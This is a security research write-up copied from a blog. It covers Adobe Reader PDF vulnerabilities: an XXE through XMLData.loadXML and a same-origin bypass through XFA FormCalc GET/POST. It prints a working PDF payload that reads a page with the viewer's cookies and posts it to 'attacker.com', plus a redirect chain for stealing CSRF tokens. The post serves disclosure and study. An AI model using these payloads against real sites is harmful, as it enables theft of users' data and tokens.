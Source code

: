 # PDF Upload - XXE and CORS bypass

#### Content copied from [https://insert-script.blogspot.com/2014/12/multiple-pdf-vulnerabilites-text-and.html](https://insert-script.blogspot.com/2014/12/multiple-pdf-vulnerabilites-text-and.html)

### Javascript function in Reader can be used to read data from external entities \(CVE-2014-8452\)

Status: Fixed  
Reality: Not Fixed  
  
This one is about a simple XXE I discovered.  
I read the paper "Polyglots: Crossing Origins by Crossing Formats", where they discussed a vulnerability in  
XMLData.parse. It was possible to use external entities and reference them.  
I read the specification and it turns out there are more functions than "parse" to read XML.  
I created a simple xml file, which references an url from the same domain and parsed it with loadXML.  
It worked:

![](https://4.bp.blogspot.com/-is4Q5hSZk-Y/VIwdzdAckWI/AAAAAAAAACI/OAzBs9Q-T50/s1600/xxe.png)

```text
7 0 obj
<<
 /Type /Action
/S /JavaScript
/JS (
var cXMLDoc = '<?xml version="1.0" encoding="ISO-8859-1"?><foo>muh</foo>'
var cXMLDoc2 = '<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE foo [ <!ENTITY aaaa SYSTEM "http://example.com">]><ab>&aaaa;</ab>'
xml = XMLData.parse(cXMLDoc,false);
xml.loadXML(cXMLDoc2,false,true);
)
>>
endobj
```

  
The Impact is limited because  
 o\) it is limited to same origin  
 o\) HTML Pages break the xml  
 o\) Dynamic Entities are not supported  
 o\) I had the idea to use a utf-16 xml to avoid breaking the xml structure, but I it didn't work.  
  
But it still can be used to read JSON.

### Same origin policy bypass in Reader \(CVE-2014-8453\)

Status: fixed  
Reality: fixed but same origin still vulnerable!  
  
In my opinion this is the most powerful vulnerability. Even without the Origin Bypass it shows you  
how powerful/terrifying PDF can be.  
Many people know that PDF supports a scripting language called Javascript but there is another one.  
It is mentioned in the specification for XFA, a file type also supported by the adobe reader.  
It is called formcalc and it not that powerful. It is used for simple math calculation. But in the adobe specification  
there are three additional functions: 'GET','POST' and 'PUT'. Yes, their names speak for themselves.  
'GET' has one parameter: an url. It will use the browser \(YEAH COOKIES\) to retrieve the url and return the content of it.  
We can then use 'POST' to send the return content to our own server:  
  
var content = GET\("myfriends.php"\);  
Post\("http://attacker.com",content\);  
  
These functions are same origin, so a website needs to allow us to upload a PDF. Thats not that unrealistic for  
most websites. Attacker.com is not same origin, so you need to setup a crossdomain.xml, as usual with Adobe products.  
  
To sum up: This is not a bug, this is a feature. As soon as you are allowed to upload a PDF on a website,  
you can access the website in the context of the user, who is viewing the PDF. Because the requests are issued  
by the browser, cookies are sent too. You can also use it to break any CSRF Protection by reading the tokens.

```text

% a PDF file using an XFA
% most whitespace can be removed (truncated to 570 bytes or so...)
% Ange Albertini BSD Licence 2012

% modified by insertscript

%PDF-1. % can be truncated to %PDF-\0

1 0 obj <<>>
stream
<xdp:xdp xmlns:xdp="http://ns.adobe.com/xdp/">
<config><present><pdf>
    <interactive>1</interactive>
</pdf></present></config>
<template>
    <subform name="_">
        <pageSet/>
        <field id="Hello World!">
            <event activity="initialize">
                <script contentType='application/x-formcalc'>
     var content = GET("myfriends.php");
                   Post("http://attacker.com",content);
                </script>
            </event>
        </field>
    </subform>
</template>
</xdp:xdp>
endstream
endobj

trailer <<
    /Root <<
        /AcroForm <<
            /Fields [<<
                /T (0)
                /Kids [<<
                    /Subtype /Widget
                    /Rect []
                    /T ()
                    /FT /Btn
                >>]
            >>]
            /XFA 1 0 R
        >>
        /Pages <<>>
    >>
>>


```

  
After I found these functions, I found a same origin policy bypass. This makes it possible to use a victim browser  
as a proxy \(@beef still working on the module^^\)  
  
The bypass is really simple:  
  
1. User A loads evil.pdf from http://attacker.com/evil.pdf  
2. Evil.pdf uses formcalc GET to read http://attacker.com/redirect.php  
3. redirect.php redirects with 301 to http://facebook.com  
4. Adobe reader will follow and read the response without looking for a crossdomain.xml.  
5. evil.pdf sends the content retrieved via POST to http://attacker.com/log.php

Note that using this technique you can steal the CRSF tokens of a page and abuse CSRF vulns.

This simple bypass is fixed now. I hope they going to implement a dialog warning for same origin requests too.

